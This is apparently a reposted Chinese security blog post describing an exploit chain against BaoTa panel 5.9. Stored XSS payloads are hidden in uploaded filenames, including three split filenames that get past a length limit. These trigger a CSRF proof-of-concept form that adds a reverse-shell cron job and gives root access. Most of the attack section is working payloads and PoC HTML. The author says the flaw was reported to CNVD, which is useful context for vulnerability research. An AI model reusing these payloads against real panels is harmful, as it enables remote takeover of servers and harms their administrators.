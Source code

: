 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/gtYyyhye90ZPILWCGsGKGQ)

去年就挖到了，交了 CVND。感觉现在用 5.x 版本的已经很少了。

通过以下命令来安装 5.9 版本宝塔面板

Centos 安装命令：

```
yum install -y wget && wget -O install.sh http://download.bt.cn/install/install.sh && sh install.sh
```

Ubuntu/Deepin 安装命令：

```
wget -O install.sh http://download.bt.cn/install/install-ubuntu.sh && sudo bash install.sh
```

假设我们已经通过网站漏洞或者 ftp 弱口令等, 可以在 web 目录下进行文件上传

在 web 目录下上传一个文件名为 `<img src=x onerror="alert(1)">`的文件

![](https://mmbiz.qpic.cn/mmbiz_png/noZJ3Kqbu1fMgrSsdJ2sFvn5FiaYqcu4o2QaROzvZzdekTJ7nSqfhbaA6DXLNWuOmwq68s0A79icz1CgV9M95ojQ/640?wx_fmt=png)

在宝塔后台浏览文件, 触发 payload

![](https://mmbiz.qpic.cn/mmbiz_png/noZJ3Kqbu1fMgrSsdJ2sFvn5FiaYqcu4ofIibIjU0Jv8AvJEX4Q1iavdtHa4huZXxeD4ialuHk6xCACbxyPBS4Y6icw/640?wx_fmt=png)

但是由于宝塔的 session 加了 httponly, 所以我们是无法获取到宝塔的 cookie 的, 但是我们可以配合计划任务的一个 csrf 的漏洞来达到权限提升的效果

POC

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://1.1.1.1:8888/crontab?action=AddCrontab" method="POST">
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="submit" id="a" value="Submit request" />
    </form>
  </body>
  <script>
    document.getElementById('a').click()
</script>
</html>
```

修改 poc 中的 ip 地址, 保存到网页上传到 test.com 中, 当宝塔管理员访问这个页面以后, 会自动跳转到

![](https://mmbiz.qpic.cn/mmbiz_png/noZJ3Kqbu1fMgrSsdJ2sFvn5FiaYqcu4oplB9usp3NOtjX4WmBv4WkVAz9DJ2bwsT9icRYNwdpTQUahl9dic0lUDw/640?wx_fmt=png)

后台会自动添加反弹 shell 的计划任务

![](https://mmbiz.qpic.cn/mmbiz_png/noZJ3Kqbu1fMgrSsdJ2sFvn5FiaYqcu4o8xaaHxM35gclzZVt2MTofhtjv6Tkuia6SN6xlGqPNKFd6QbzuKiboZhw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/noZJ3Kqbu1fMgrSsdJ2sFvn5FiaYqcu4osk368ej3OdRiaWXNEbDd07hoJAWwlvORWsB6Q5bEVQrp69ssHFkL7og/640?wx_fmt=png)

现在准备就绪, 只要让管理员打开这个网页就可以了

回到上传文件的地方, 因为有触发点有字符数限制, 所以用多个语句构造, 因为执行顺序的关系, 可能需要刷新一下文件管理即可触发

![](https://mmbiz.qpic.cn/mmbiz_png/noZJ3Kqbu1fMgrSsdJ2sFvn5FiaYqcu4o9msRNtHj01Q11hvvBupXMcqNSuosXfoesQTUexlEInqGABWStv2NAg/640?wx_fmt=png)

新建三个文件, 文件名分别为

```
a<img src=x onerror="a=String.fromCharCode(47)">
b<img src=x onerror="b='.com'">
c<img src=x onerror="window.open(a+a+'test'+b)">
```

payload 触发以后会自动打开 test.com 网页

![](https://mmbiz.qpic.cn/mmbiz_png/noZJ3Kqbu1fMgrSsdJ2sFvn5FiaYqcu4o8bKD7GZaooAvH2kNdQoB8Ld2slHr6JQUDsUIYoP1JDn5uLIMy6z6zw/640?wx_fmt=png)

将上一步 CSRF 的 payload 部署到 test.com, 管理员浏览文件的时候即可触发, 触发后五分钟会反弹 shell

![](https://mmbiz.qpic.cn/mmbiz_png/noZJ3Kqbu1fMgrSsdJ2sFvn5FiaYqcu4ou3Rq4cE31ia4gZNa9BicPibf6wOMI1vhfCibuzicUtdGBohcp8uygngaMAA/640?wx_fmt=png)

root 权限~